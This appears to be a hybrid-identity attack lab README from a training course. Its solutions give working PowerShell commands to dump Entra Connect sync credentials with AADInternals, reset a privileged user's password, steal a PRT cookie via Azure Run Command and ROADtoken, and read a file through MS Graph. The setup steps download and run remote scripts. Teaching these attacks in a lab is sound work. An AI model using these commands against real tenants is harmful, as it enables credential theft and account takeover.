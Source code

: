 # LAB 4 Preparations
1. RDP login to DC VM using the **YOURDOMAIN\rootuser**
then, run the following powershell script as admin:
    ```powershell
    # when asked, login using the ENTRA CREDS (!)
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1"
    ```
2. RDP login to Win11 VM using the **YOURDOMAIN\user1**
then, , run the following powershell script as admin:
    ```powershell
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4Win11VmPrepScript.ps1" -OutFile "C:\\lab4Win11VmPrepScript.ps1"; `
        & "C:\\lab4Win11VmPrepScript.ps1"
    ```
keep this window open in the background - you're not allowed to use it from now on.

# Instructions
1. Your goal is to find the secret.txt file 
2. forget everything you knew: from this point on you DON'T know what the admin password is (i.e. what's the password of 'user1')
3. DO NOT password reset or silver ticket (seamless sso) "user1"
3. the only thing you have is the RDP session on the DC. Good luck! 

# Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on a VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

    1. pass reset: DC vm -> reset pass of "user2" using Entra Sync credentials

    2. login to Azure as that user using your browser

    3. azure run command on Win11 VM (the VM that has user1 logged on)

    4. Steal user1 PRT Cookie by running powershell script from the Run Command extension on the Azure portal 

    5. Use PRT Cookie to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>



## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
    
```powershell
Import-Module AADInternals
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -SaveToCache
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```
Target user2, as he holds a privileged role.. 

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```
</details>


## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    Use this ability to get a PRT Cookie so you can impersonate as that user and steal its identity and permissions
</details>

<details>
    <summary><b>Hint 4</b></summary>

    user1 is a part of the company's red team, he continuously, on a regular basis, runs scripts from his Desktop folder to map their Entra tenant attack surface. Use that to your advantage.
</details>

<details>
<summary><b>Solution</b></summary>

user1 uses roadrecon to map attack surfaces in his company's attack surface, the script is executed on a regular basis.
as we learned, roadrecon writes a file with the access token called "", we can take that access token and steal it!
1. Get the logged in user's access token: run the following command from the Run Command Window in the Azure portal:

```powershell
# Get the nonce first
roadrecon auth --prt-init 

# Get a new PRT Cookie
.\ROADtoken.exe <nonce> 

# this will AUTOMATICALLY open a browser and log in as that user (!)
roadrecon auth -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken 
 <eyJh... PRT COOKIE>

```
</details>


### Step 3 Hint
### Step 3 Solution

```powershell
$at = "eyJ...."
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser
```

### Bonus: 
Go back to the beginning, and try steal user2 using silver ticket (Seamless SSO) instead of password reset


## Don't forget
Once done, delete the lab resource groups to clean up the resources